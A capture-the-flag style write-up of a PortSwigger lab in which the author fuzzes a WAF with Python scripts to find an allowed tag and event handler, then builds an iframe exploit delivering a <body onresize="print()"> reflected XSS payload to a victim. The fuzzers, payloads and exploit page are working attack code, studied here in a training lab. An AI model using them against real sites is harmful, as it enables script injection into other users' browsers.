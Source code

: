 # Reflected XSS into HTML context with most tags and attributes blocked

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked), you'll learn: Reflected XSS into HTML context with most tags and attributes blocked! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the WAF and calls the `print()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061442.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061551.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061605.png)

As you can see, our input is reflected to the web page.

**Let's try to inject some common XSS payloads:**
```html
<script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061656.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061714.png)

However, it looks like the WAF (Web Application Firewall) blocked it.

**To bypass WAF, we first need to know which tags are NOT filtered.**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + tag)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <body>
[+] Found valid tag: <custom tags>
```

Looks like we can use the `<body>` tag!

**Then, we can go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose an XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064909.png)

```html
<body onload=alert(1)>
```

**Looks good. Let's try it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064929.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064936.png)

`Attribute is not allowed`...

**Again, we can fuzz which attributes are allowed:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(attribute):
    payload = f'<body {attribute}=alert(document.domain)>'
    url = f'https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + attribute)

    if 'Attribute is not allowed' not in requestResult.text:
        print(f'[+] Found valid attribute: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listAttributes = ['onafterprint', 'onafterscriptexecute', 'onanimationcancel', 'onanimationend', 'onanimationiteration', 'onanimationstart', 'onbeforecopy', 'onbeforecut', 'onbeforeinput', 'onbeforeprint', 'onbeforescriptexecute', 'onbeforeunload', 'onblur', 'onclick', 'oncontextmenu', 'oncopy', 'oncut', 'ondblclick', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onfocus', 'onfocusin', 'onfocusout', 'onhashchange', 'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmessage', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onpagehide', 'onpageshow', 'onpaste', 'onpointerdown', 'onpointerenter', 'onpointerleave', 'onpointermove', 'onpointerout', 'onpointerover', 'onpointerrawupdate', 'onpointerup', 'onpopstate', 'onresize', 'onscroll', 'onselectionchange', 'onselectstart', 'ontouchend', 'ontouchmove', 'ontouchstart', 'ontransitioncancel', 'ontransitionend', 'ontransitionrun', 'ontransitionstart', 'onunhandledrejection', 'onunload', 'onwebkitanimationend', 'onwebkitanimationiteration', 'onwebkitanimationstart', 'onwebkittransitionend', 'onwheel']

    for attribute in listAttributes:
        thread = Thread(target=sendRequest, args=(attribute,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 attribute_fuzzing.py 
[+] Found valid attribute: <body onbeforeinput=alert(document.domain)>
[+] Found valid attribute: <body onresize=alert(document.domain)>
```

Again, go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose an XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065455.png)

Hmm... `onbeforeinput` has no payload.

**How about `onresize`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065538.png)

**It has!**
```html
<body onresize="print()">
```

**Let's test it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065604.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065617.png)

It worked!

**Now, let's go to the exploit server and deliver the payload to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065700.png)

**Final payload:**
```html
<html>
    <head>
        <title>XSS-17</title>
    </head>
    <body>
        <iframe id="xssiframe" src="https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" scrolling="auto" frameborder="0"></iframe>
    </body>

    <script>
        var xssiframeObject = document.getElementById("xssiframe");

        // When the Iframe is loaded, change it's height and width to the viewer's screen width and height
        xssiframeObject.onload = function(){
            xssiframeObject.style.height = screen.height + 'px';
            xssiframeObject.style.width = screen.width + 'px';
        };
    </script>
</html>
```

This HTML code will create an Iframe, and the source is pointing to our XSS payload. When the Iframe is fully loaded, change it's height and width to the viewer's screen width and height.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231071618.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231071628.png)

We did it!

# What we've learned:

1. Reflected XSS into HTML context with most tags and attributes blocked